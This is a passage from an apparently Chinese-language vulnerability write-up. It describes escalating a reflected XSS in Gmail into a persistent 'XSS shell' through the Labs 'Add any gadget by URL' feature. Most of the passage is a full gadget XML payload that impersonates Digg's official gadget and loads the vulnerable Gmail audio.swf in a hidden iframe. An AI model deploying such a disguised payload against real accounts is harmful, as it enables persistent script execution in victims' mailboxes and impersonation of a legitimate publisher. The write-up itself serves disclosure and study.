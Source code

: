 [0x03] 从反射到 rootkit

现在我们有一个利用十分优雅的 xss 了, 哦, 对不起, 但是这只是一个反射型 xss, 用处似乎不大? 我们能不能把这个反射型 xss 转化成一个存储型的呢, 甚至更进一步, 变成一个 rootkit, 一个 xss shell, 使得用户在每一次打开 gmail 时都可中枪, 执行我们的 js.

-什么?不可能?

-风太大,听不见. - .-

下面就看这个神奇的 show 吧. Gmail 里面有个 lab, 提供一些新奇的实验性的小玩意, 其中有一个就是"Add any gadget by URL". 你可以指定一个特定的 gadget 网址, 这个 gadget 会出现在你 gmail 页面的左下角. 用户可以往 gadget 里添加任意的 html 代码, 包括 script, Google 通过把这个 gadget 的域名设定为 googleusercontent.com, 然后以 iframe 的方式载入, 来避免可能产生的安全问题. 但这个是否足够安全呢, 在大多数情况下, 是的. 可我们现在有了一个反射型 xss, 这个答案就不一样了.

我根据 digg.com 的 gadget 做了一些修改, iframe 了一个我们刚刚挖掘的 gmail 反射型 xss.

```
<?xml version="1.0" encoding="UTF-8" ?><Module>
        <ModulePrefs title=" " directory_title="Digg 2.0" title_url="http://digg.com/"
            description="Discover the best news, images and videos as voted on by the Digg community, from the social news website Digg.com. You can now customize your Digg gadget by topic, and view more story information, such as comments and a friend's activity feed.  Let us know what you think at feedback.digg@digg.com"
            screenshot="http://cdn1.diggstatic.com/img/gadget/ig.a39bd77c_png.jpg"
            thumbnail="http://cdn3.diggstatic.com/img/gadget/ig-thumb.0281a8d3_png.jpg"
            author="Digg.com Inc." author_location="San Francisco, CA"
            author_email="feedback.digg@digg.com" author_affiliation="digg.com Inc."
            category="news" category2="technology">
            <Require feature="dynamic-height" />
            <Require feature="tabs" />
            <Require feature="setprefs" />
        </ModulePrefs>

        <UserPref name="user" datatype="hidden" />
        <UserPref name="thumbnail" datatype="hidden" default_value="1" />
        <UserPref name="filter" datatype="hidden" default_value="0" />
        <UserPref name="num" datatype="hidden" default_value="5" />
        <UserPref name="type" datatype="hidden" default_value="popular" />
        <UserPref name="refresh" datatype="hidden" default_value="0" />
        <UserPref name="tab" datatype="hidden" default_value="0" />
        <UserPref name="offset" datatype="hidden" default_value="0" />
        <UserPref name="pagination" datatype="hidden" default_value="0" />
        <UserPref name="business" datatype="hidden" default_value="true" />
        <UserPref name="entertainment" datatype="hidden" default_value="true" />
        <UserPref name="gaming" datatype="hidden" default_value="true" />
        <UserPref name="lifestyle" datatype="hidden" default_value="true" />
        <UserPref name="offbeat" datatype="hidden" default_value="true" />
        <UserPref name="politics" datatype="hidden" default_value="true" />
        <UserPref name="science" datatype="hidden" default_value="true" />
        <UserPref name="sports" datatype="hidden" default_value="true" />
        <UserPref name="technology" datatype="hidden" default_value="true" />
        <UserPref name="world_news" datatype="hidden" default_value="true" />

        <Content type="html">
        <![CDATA[
        <iframe width='0'style='visibility:hidden;' height='0' src="https://mail.google.com/mail/html/audio.swf?playerMode=normal&mediarss=http://localhost/gmail/2.xml&autoplay=true"></iframe>
        ]]>

        </Content>
    </Module> 
```
